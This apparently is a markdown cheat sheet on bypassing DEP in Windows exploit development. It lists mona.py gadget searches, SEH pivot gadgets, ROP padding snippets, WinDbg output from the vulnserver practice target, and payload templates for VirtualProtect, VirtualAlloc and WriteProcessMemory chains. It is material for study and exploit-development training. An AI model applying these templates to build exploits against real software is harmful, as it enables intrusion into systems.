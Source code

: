 # DEP bypass
Some methods and hint to bypass DEP

1. Have you overwrite EIP? 

    ```py
    !py mona find -type instr -s "ret" -m MODULE.dll
    ```

2. Have you overwrite SEH?

   ```py
    add esp, offset + ret
    mov esp, register + ret
    xchg register,esp + ret
    call register (se il registro punta al nostro buffer)
    mov reg,[ebp+0c] + call reg (or other references to seh record)
    push reg + pop esp + ret (if you control ‘reg’)
    mov reg, dword ptr fs:[0] + … + ret  (set esp indirectly, via SEH record)
    ```

3. Search mona modules without rebase
  
    ```py
    !py mona modules -cm rebase=false
    ```
    
    
4. Always remember the padding

    ```py
    ecx = pack("<I",0x68b90948)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
    ecx += pack('<L',0x41414141) # padding for pop ebp
    ecx += pack('<L',0x41414141) # padding for pop esi
    ```
    
5. Same for RETN 0xN

    ```py
    rop += istruzione_retn # padding for retn 0x04
    rop += istruzione_retn # padding for retn 0x04
    ```
6. Same for ADD ESP,XX

    ```py
    ecx += pack('<L',0x41414141) # padding for add esp
    ecx += pack('<L',0x41414141) # padding for add esp
    ....
    ```
6. Search RW module
 
    ```py
    0:000> !dh module
    ......

    SECTION HEADER #6
    .idata name
        224 virtual size
        6000 virtual address
        400 size of raw data
        1600 file pointer to raw data
        0 file pointer to relocation table
        0 file pointer to line numbers
        0 number of relocations
        0 number of line numbers
    C0300040 flags
         Initialized Data
         4 byte align
         Read Write
    ............
    
    0:000>  ? modules + 224 + 6000 + 4
    Evaluate expression: 1649435176 = 62506228
  
    0:000> !address 62506228
    Usage:                  Image
    Base Address:           62506000
    End Address:            62507000
    Region Size:            00001000 (   4.000 kB)
    State:                  00001000          MEM_COMMIT
    Protect:                00000004          PAGE_READWRITE
    Type:                   01000000          MEM_IMAGE
    Allocation Base:        62500000
    Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
    Image Path:             C:\Users\User\Desktop\vulnserver\essfunc.dll
    Module Name:            essfunc
    Loaded Image Name:      
    Mapped Image Name:      
    More info:              lmv m essfunc
    More info:              !lmi essfunc
    More info:              ln 0x62506228
    More info:              !dh 0x62500000
    ```

7. Get IAT
    ```py
    0:009> !dh fsws -f
        0  DLL characteristics
        0 [       0] address [size] of Export Directory
    192B50 [     1CC] address [size] of Import Directory
    1AE000 [   133E0] address [size] of Resource Directory
        0 [       0] address [size] of Exception Directory
        0 [       0] address [size] of Security Directory
        0 [       0] address [size] of Base Relocation Directory
    166C40 [      1C] address [size] of Debug Directory
        0 [       0] address [size] of Description Directory
        0 [       0] address [size] of Special Directory
        0 [       0] address [size] of Thread Storage Directory
        0 [       0] address [size] of Load Configuration Directory
        0 [       0] address [size] of Bound Import Directory
    166000 [     C40] address [size] of Import Address Table Directory
        0 [       0] address [size] of Delay Import Directory
        0 [       0] address [size] of COR20 Header Directory
        0 [       0] address [size] of Reserved Directory

    0:009> dps fsws +0x166000 L100
    00566000  7606eb20 advapi32!RegCloseKeyStub
    00566004  760731e0 advapi32!RegEnumKeyA
    00566008  7606ea50 advapi32!RegQueryValueExAStub
    005662f4  7588b6b0 KERNEL32!GetPrivateProfileStringA
    005662f8  7588ae50 KERNEL32!WritePrivateProfileStringA
    005662fc  758887a0 KERNEL32!GetModuleFileNameAStub
    ......
    0:009> dps
    ......
    ```
## Regex ROP
```py
:  # (jmp|call) esp
:  # mov e..,e..
:  # xchg e..,e..
:  # push e.. # RETN  
:  # push e.. # pop e.. # RETN  
:  # pop e.. # RETN  
:  # inc e..
:  # dec e..
:  # neg e..
:  # push e..
:  # pop e..
:  # ADD E..,e..
:  # pushad # RETN
:  # and E..,(E..|0x.+?|[[:alnum:]])+
:  # xor E..,(E..|0x.+?|[[:alnum:]])+
:  # ADD E..,(E..|0x.+?|[[:alnum:]])+
:  # sub E..,(E..|0x.+?|[[:alnum:]])+
:  # mov e..,DWORD PTR
:  # MOV DWORD PTR \[(E..|E..\+[[:alnum:]]+)\],EAX
```

## VirtualProtect Basic Template

```py
#GOALS - VirtualProtect
#EAX 90909090 => Nop                                              
#ECX <writeable pointer> => lpflOldProtect                                
#EDX 00000040 => flNewProtect                                   
#EBX 00000201 => dwSize   512                                      
#ESP ???????? => Leave as is                                 
#EBP ???????? => Call to ESP (jmp, call, push,..) -> !py mona jmp -r esp -cpb '\x00'              
#ESI ???????? => PTR to VirtualProtect - DWORD PTR of VirtualProtect 
#EDI RETN => ROP-Nop same as EIP  --> !py mona find -type instr -s "retn" -m module.dll -cpb "\x00"
```
## VirtualProtect Sniper Template

```py
# Calling VirtualProtect with parameters
payload += struct.pack('<L', 0x77325c90)    # Pointer to kernel32.VirtualProtect()
payload += struct.pack('<L', 0x11111111)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
payload += struct.pack('<L', 0x22222222)    # lpAddress
payload += struct.pack('<L', 0x33333333)    # size of shellcode (0x500 is ok)
payload += struct.pack('<L', 0x44444444)    # flNewProtect (0x40)
payload += struct.pack('<L', 0x62506d10)    # pOldProtect (any writeable address)
```

## VirtualAlloc Template
```py
#GOAL       VirtualAlloc                                         
# EAX 90909090 => Nop                                                
# ECX 00000040 => flProtect                                         
# EDX 00001000 => flAllocationType                                    
# EBX 00000001 => dwSize                                            
# ESP ???????? => Leave as is                                         
# EBP ???????? => Call to ESP (jmp, call, push,..)    !py mona jmp -r esp -cpb '\x00'                    
# ESI ???????? => PTR to VirtualAlloc - DWORD PTR of VirtualAlloc         
# EDI RETN => ROP-Nop same as EIP          !py mona find -type instr -s "retn" -m modulo.dll -cpb "\x00"   
```

## WriteProcessMemory Template
No encoding for this method! Create manually the shellcode
```py
# kernel32!WriteProcessMemory placeholder parameters
payload += struct.pack('<L', 0x7732ae50)    # Pointer to kernel32!WriteProcessMemory 
payload += struct.pack('<L', 0x61c72d10)    # RX from MODULE no aslr
payload += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
payload += struct.pack('<L', 0x61c72d10)    # lpBaseAddress = RX from MODULE no aslr
payload += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
payload += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
payload += struct.pack('<L', 0x1004dd10)    # lpNumberOfBytesWritten = writable location RW in MODULE no aslr
```
## Resources
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
2. https://vickieli.dev/binary%20exploitation/data-execution-prevention/
3. https://connormcgarr.github.io/ROP/
4. https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf
5. https://www.fuzzysecurity.com/tutorials/expDev/7.html
6. https://h0mbre.github.io/Creating_Win32_ROP_Chains
7. https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html
8. https://connormcgarr.github.io/ROP2/
